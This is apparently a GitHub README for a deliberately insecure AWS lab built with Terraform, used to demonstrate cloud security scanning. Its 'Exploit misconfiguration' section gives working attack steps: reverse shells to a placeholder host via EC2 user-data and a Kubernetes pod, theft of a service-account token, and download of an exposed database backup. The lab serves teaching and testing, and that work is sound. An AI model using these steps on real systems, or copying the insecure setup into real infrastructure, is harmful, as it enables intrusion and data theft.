 # Cloud Security AWS environement
This terraform project deploy EKS,EC2,S3,IAM and VPC without security best practices. This environement can be used to show the importance of cloud security posture management and cloud worload protection solutions. Do not use this project on a production environement

# Topology
![topology](https://github.com/WS-Prakash/AWS-Security-Sandbox/assets/102661806/1a1a40d9-c83e-4428-abbd-cf30dcacffe2)


# Requirement
- AWS CLI access to the cloud account
- Kubectl installed
- Terraform installed

# Environment
The terraform project deploy the following resources
- The network infrastructure: VPC, subnets, IGW, route tables, security groups
- IAM roles and Policies
- S3 bucket publicaly accessible
- MongoDB installed on an EC2 instance. During the boot, we enable mongodb authentication, take a backup snapshot and store it on the S3 bucket. The ec2 instance has an instance profile which allow full access to aws ec2.
- EKS cluster with Node Group
- Wordrpress and Myql Pods. Wordress is exposed to internet via Kubernetes services with type loadbalancer. Pods has cluster admin rights.
- Open source vulnerability scanners. Kube-bench and kube-hunter

# Installation
The order is important
- Download the terraform project into a local machine
```sh
git clone https://github.com/imsed/cloud-security-aws-environement
cd cloud-security-aws-environement
```
- Deploy the infra module 
```sh
cd infra
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy the mongodb database on an ec2 instance
```sh
cd compute
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy EKS
```sh
cd eks
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy kubernetes pods
```sh
cd kubernetes
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```

- Deploy scanner jobs
```sh
cd scanners
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
# scanners
- You can scan the terraform project using IaC code security scanner like checkov.
```sh
cd ../cloud-security-aws-environement
checkov --directory cloud-security-aws-environement
```
- kube-bench (CIS benchmark). You can view the result of the scan 
```sh
kubectl logs kube-bench-xxx
```
- kube-hunter. You can view the result of the scan 
```sh
kubectl logs kube-hunter-xxx
```
# Exploit misconfiguration

- expoloit the ec2 instance profile from the mongodb ec2 instance
```sh
ubuntu@ip-172-31-13-230:~$ aws ec2 describe-instances

You can create a new ec2 with reverse shell to a controlled machine with public IP a.b.c.d and listens on port 27017 or any other ports(nc -lv 27017)

ubuntu@ip-172-31-13-230:~$ more reverse-shell.sh
#!/bin/bash
bash -i >& /dev/tcp/a.b.c.d/27017 0>&1

ubuntu@ip-172-31-13-230:~$ aws ec2 run-instances --image-id ami-05a8c865b4de3b127 --instance-type t2.micro --user-data file://reverse-shell.sh --security-group-ids <security group id> --subnet-id <subent id> --region <aws region> 
```
- mongodb backups accessible from internet. You can install mongodb in your machine, dowbload the backup and then restore it
```sh
wget <url of the mongodb backup file from s3>
tar -xf mongodb-xxxx.tar
mongorestore mongodb-xxxx
```
- Permissive RBAC permissions. From the wordpress pod you can excute curl command agains the EKS cluster.
```sh
aws eks update-kubeconfig --region <aws region> --name  "name of the eks cluster you deployed"
kubectl exec -it wordrepss... -- bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
##List all pods running on EKS
curl -s -k -m 3 -H "Authorization: Bearer $TOKEN" https://${KUBERNETES_SERVICE_HOST}/api/v1/namespaces/default/pods/
##create a new pod with a reverse shell code to a controlled machine with public IP a.b.c.d and listens on port 27017 or any other ports(nc -lv 27017)
curl -s -k -m 3 -H "Authorization: Bearer $TOKEN" https://${KUBERNETES_SERVICE_HOST}/api/v1/namespaces/default/pods \
  -X POST \
  -H 'Content-Type: application/yaml' \
  -d '---
  apiVersion: v1
  kind: Pod
  metadata:
    labels:
      run: mongoclient
    name: mongoclient
  spec:
    containers:
    - image: mongo
      name: mongoclient
      command: ["/bin/bash"]
      args: ["-c","bash -i >& /dev/tcp/a.b.c.d/27017 0>&1"]
'


```
# Destroy environement

```sh
cd cloud-security-aws-environement
cd scanners
terraform destroy
cd kubernetes
terraform destroy
cd eks
terraform destroy
cd compute
terraform destroy
cd infra
terraform destroy
```
